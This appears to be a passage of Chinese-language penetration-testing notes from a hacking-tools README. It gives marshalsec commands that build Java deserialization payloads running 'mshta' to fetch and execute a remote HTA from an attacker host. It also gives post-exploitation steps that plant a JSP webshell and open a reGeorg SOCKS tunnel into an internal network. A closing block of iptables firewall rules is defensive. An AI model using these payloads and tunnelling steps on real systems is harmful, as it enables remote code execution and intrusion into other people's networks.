 ```
    Templates
    ResourceGadget
```
## 命令
```
java -cp /Users/`whoami`/safe/myhktools/jars/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.JsonIO  Groovy 'mshta http://192.168.24.10:8080/WxtpFMT1WId.hta' > marshalsec_JsonIO_Groovy.txt

java -cp /Users/`whoami`/safe/myhktools/jars/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.BlazeDSAMF0  SpringPropertyPathFactory 'mshta http://192.168.24.10:8080/WxtpFMT1WId.hta' > marshalsec_BlazeDSAMF0_SpringPropertyPathFactory.bin

java -cp /Users/`whoami`/safe/myhktools/jars/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.BlazeDSAMF3
Picked up JAVA_TOOL_OPTIONS: -Dfile.encoding=UTF-8
No gadget type specified, available are [UnicastRef, SpringPropertyPathFactory, C3P0WrapperConnPool]

java -cp /Users/`whoami`/safe/myhktools/jars/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.BlazeDSAMF3  SpringPropertyPathFactory 'mshta http://192.168.24.10:8080/WxtpFMT1WId.hta' > marshalsec_BlazeDSAMF3_SpringPropertyPathFactory.bin

```

## 后渗透：http隧道

```
git clone https://github.com/hktalent/myhktools
cd myhktools
1、植入x.jsp
https://github.com/hktalent/myhktools/py/x.jsp
2、建立http隧道反向代理
python py/reGeorgSocksProxy.py -p 8081 -u  http://xx.xxx.com:8070/x1/x.jsp

3、Proxifier设置代理127.0.0.1，8081
还可以设置特定网段使用该代理
那么，恭喜你，现在你可以进入内网了
```

### linux 经典防火墙配置

```
# 清楚所有的规则
iptables --flush
# 禁止ping
iptables -A INPUT -p icmp --icmp-type 8 -s 0/0 -j DROP
# tcp ip协议攻击防御, 例如 慢速攻击防御
iptables -A INPUT -p tcp --tcp-flags SYN,ACK SYN,ACK -m state --state NEW -j DROP
iptables -A INPUT -p tcp --tcp-flags ALL FIN,URG,PSH -j DROP
iptables -A INPUT -p tcp --tcp-flags SYN,RST SYN,RST -j DROP
iptables -A INPUT -p tcp --tcp-flags SYN,FIN SYN,FIN -j DROP
iptables -t filter -A INPUT -m state --state INVALID -j DROP
iptables -t filter -A INPUT   -p tcp --tcp-flags ACK,FIN FIN -j DROP
iptables -t filter -A INPUT   -p tcp --tcp-flags ACK,PSH PSH -j DROP
iptables -t filter -A INPUT -p tcp --tcp-flags ACK,URG URG -j DROP
iptables -t filter -A INPUT -p tcp --tcp-flags ALL ALL -j DROP
iptables -t filter -A INPUT -p tcp --tcp-flags ALL NONE -j DROP
iptables -t filter -A INPUT -p tcp --tcp-flags ALL SYN,RST,ACK,FIN,URG -j DROP
iptables -t filter -A INPUT -p tcp --tcp-flags SYN,FIN SYN,FIN -j DROP
iptables -t filter -A INPUT -p tcp --tcp-flags FIN,RST FIN,RST -j DROP
iptables -t filter -A INPUT -p tcp --tcp-flags ALL SYN,FIN -j DROP
iptables -t filter -A INPUT -p tcp --tcp-flags ALL URG,PSH,FIN -j DROP
iptables -t filter -A INPUT -p tcp --tcp-flags ALL FIN -j DROP
```
